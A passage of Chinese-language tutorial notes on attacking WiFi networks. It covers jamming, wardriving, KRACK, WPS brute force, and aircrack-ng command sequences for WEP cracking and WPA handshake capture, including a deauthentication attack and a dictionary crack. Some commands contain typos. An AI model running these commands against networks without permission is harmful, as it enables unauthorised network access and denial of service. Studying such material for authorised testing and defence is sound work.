 首先要获取无线设备的STATION ID和AP的BSSID，要开启无线网卡的监听模式，可以通过airmon-ng开启/确认监听模式是否开启，接下来可以通过airodump-ng查看BSSID和STATION

## WiFi信号干扰
WiFi信号有2.4g和5g频段，每个频段有分为多个通道，每个通道有自己的频率范围，如果通过无线发射设备在目标频率范围不断发射高强度信号，可以造成拒绝服务攻击。

## 战争驾驶
可以简单理解为开车在目标附近游荡，收集目标地点的无线信号情况并在地图上画出。

常用的工具比如WiGLE

## WEP攻击
WEP是通过RC4算法加密，且初始向量IV是明文传输的。可以通过抓取大量的WEP来破解PSK(Pre-Share Key)密码

```
# 开启无线网卡监听模式
airmon-ng start wlan0 l1

# 监听目标AP和通道，保存到文件
airodump-ng -c l1 --bssid 11:22:33:44:55:66 -w tmp_capture wlan0

# 破解WEP密码
aircrack-ng -b 11:22:33:44:55:66 tmp_capture.cap
```

## WPA攻击
WPA有两个版本WPA和WPA2，不过现在已经有WPA3了，高版本WPA修复了低版本的一些安全漏洞，可以通过抓取WPA四次握手过程，去破解PSK密码

演示过程如下
```
# 开启无线网卡监听模式
airmon-ng start wlan0

# 抓取目标AP和通道的数据包，保存为文件
airodump-ng --channle 11 --write tmp_capture --bssid 11:22:33:44:55:66

# 针对目标AP进行解除认证攻击，让无线设备重新连接目标AP，这个过程中，能抓取到WPA认证过程的四次握手，当airodump-ng终端看到四次握手信息后，退出
aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0

# 利用字典跑WPA的密码
aircrack-ng -w password.list tmp_caputre.cap
```

## KRACK攻击
KRACK是key reinstallation attack(密钥重装攻击)的缩写。有兴趣可查看参考材料https://krackattacks.com

## WPS攻击
WPS(WiFi Protected Setup)如果AP支持且开启WPS功能，那么就可以通过PIN码登录设备，而PIN码是8位数字，可以被暴破。

常用的工具有Reaver
